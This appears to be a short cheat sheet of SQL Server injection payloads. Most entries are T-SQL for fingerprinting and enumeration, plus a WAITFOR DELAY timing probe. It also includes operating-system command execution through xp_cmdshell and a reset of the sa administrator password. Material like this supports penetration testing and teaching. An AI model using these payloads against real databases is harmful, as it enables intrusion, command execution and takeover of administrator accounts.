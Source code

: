 SQL Server Payload
=====================================

- Version 
    - ``SELECT @@version``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Current User
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- List User
    - ``SELECT name FROM master..syslogins``
- Current Database
    - ``SELECT DB_NAME()``
- List Database
    - ``SELECT name FROM master..sysdatabases``
- Command
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0×41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
